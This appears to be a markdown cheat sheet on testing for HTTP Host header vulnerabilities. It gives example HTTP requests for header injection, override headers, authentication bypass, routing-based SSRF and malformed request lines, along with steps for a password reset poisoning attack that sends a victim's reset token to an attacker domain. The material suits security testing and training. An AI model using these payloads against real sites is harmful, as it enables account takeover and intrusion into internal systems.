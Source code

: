 
# Content 
- [How to test for vulnerabilities using the HTTP Host header](#how-to-test-for-vulnerabilities-using-the-http-host-header)
  - [if it still route you for the target endpoint](#1-supply-an-arbitrary-host-header-if-it-still-route-you-for-the-target-endpoint--start-searching-for-functionality-that-use-the-supplied-host-header-you-injected-that-can-be-compromised)
  - [if it rediects you to another host or can not find the host (Invalid Host header) or blocked (Invalid Host header)](#2-supply-an-arbitrary-host-header-if-it-rediects-you-to-another-host-or-can-not-find-the-host-invalid-host-header-or-blocked-invalid-host-header-)
- [Techniques To Use](#techniques-to-use)
  - [injecting a payload via the port](#injecting-a-payload-via-the-port)
  - [advantage of a less-secure subdomain that you have already compromised](#advantage-of-a-less-secure-subdomain-that-you-have-already-compromised)
  - [Inject duplicate Host headers](#inject-duplicate-host-headers)
  - [Supply an absolute URL](#supply-an-absolute-url)
  - [Add line wrapping](#add-line-wrapping)
  - [Inject host override headers](#inject-host-override-headers)

## How to test for vulnerabilities using the HTTP Host header
#### 1) Supply an arbitrary Host header if it still route you for the target endpoint => start searching for functionality that use the supplied host header you injected that can be compromised 
- Password reset poisoning 
- Web cache poisoning
- Exploiting classic server-side vulnerabilities  (Ex:sql,xxe)
- Routing-based SSRF => check if the host header send dns request for your server 
- Bypassing authentication
#### 2) Supply an arbitrary Host header if it rediects you to another host or can not find the host (Invalid Host header) or blocked (Invalid Host header) : 
- Connection state attacks
- Try to use [below techniques](#techniques-to-use) 
  
## Techniques To Use

#### injecting a payload via the port
```http
GET /example HTTP/1.1
Host: vulnerable-website.com:bad-stuff-here
```
#### advantage of a less-secure subdomain that you have already compromised
```http
GET /example HTTP/1.1
Host: hacked-subdomain.vulnerable-website.com
```
#### Inject duplicate Host headers
```http
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: bad-stuff-here
```
#### Supply an absolute URL
```http
GET https://vulnerable-website.com/ HTTP/1.1
Host: bad-stuff-here
```

#### Add line wrapping
```http
GET /example HTTP/1.1
    Host: bad-stuff-here
Host: vulnerable-website.com
```

#### Inject host override headers
```http
GET /example HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: bad-stuff-here
```
- X-Forwarded-Host
- X-Host
- X-Forwarded-Server
- X-HTTP-Host-Override
- Forwarded

## Exploit the HTTP Host header
### password reset poisoning attack
 If the URL that is sent to the user is dynamically generated based on controllable input, such as the Host header, it may be possible to construct a password reset poisoning attack as follows:
- get victim's email address or username, as required, and submits a password reset request on their behalf.
- Modify the Host header so that it points to a domain that they control. (evil-user.net)
- The victim receives a password reset email directly from the website. contains a valid password reset token which its domain name in the URL points to the attacker's server: **https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j**
- If the victim clicks this link (or it is fetched in some other way, for example, by an antivirus scanner) the password reset token will be delivered to the attacker's server.

In a real attack, the attacker may seek to increase the probability of the victim clicking the link by first warming them up with a fake breach notification 
for example: Even if you can't control the password reset link, you can sometimes use the Host header to inject HTML into sensitive emails. 

**Note:** that email clients typically don't execute JavaScript, but other HTML injection techniques like dangling markup attacks may still apply. 

### Web cache poisoning
- if you find that the Host header is reflected in the response markup without HTML-encoding, or even used directly in **script imports**. 
- if the target uses a web cache, it may be possible to turn this useless, reflected vulnerability into a dangerous, stored one by persuading the cache to serve a poisoned response to other users. 
### Bypassing authentication 
EX: flawed host header access control bypass : 
```http
GET /admin HTTP/1.1
Host: localhost
```
### Accessing internal websites with virtual host brute-forcing
```
GET / HTTP/1.1
Host: intranet.example.com
```
### Routing-based SSRF
You can use a webhook to help identify these vulnerabilities. if receive a DNS lookup from the target server or another in-path system when you supply your domain , this indicates that you may be able to route requests to arbitrary domains. 
```
GET https://VulnWebSite/admin HTTP/1.1
Host: 192.168.0.0
```
### Connection state attacks
```
Connection state attacks: 
For performance reasons, many websites reuse connections for multiple request/response cycles with the same client.
Poorly implemented HTTP servers sometimes work on the dangerous assumption that certain properties, such as the Host header, are identical for all HTTP/1.1 requests sent over the same connection.
This may be true of requests sent by a browser, but isn't necessarily the case for a sequence of requests sent from Burp Repeater. This can lead to a number of potential issues.

```
**EXAMPLE:**  
- you may occasionally encounter servers that only perform thorough validation on the first request they receive over a new connection.
- In this case, you can potentially bypass this validation by **sending an innocent-looking initial request then following up with your malicious one down the same connection**.

### SSRF via a malformed request line
Custom proxies sometimes fail to validate the request line properly, which can allow you to supply unusual, malformed input with unfortunate results. 
```
GET @private-intranet/example HTTP/1.1
```
The resulting upstream URL will be:
```
http://backend-server@private-intranet/example
```
which most HTTP libraries interpret as a request to access private-intranet with the username backend-server. 

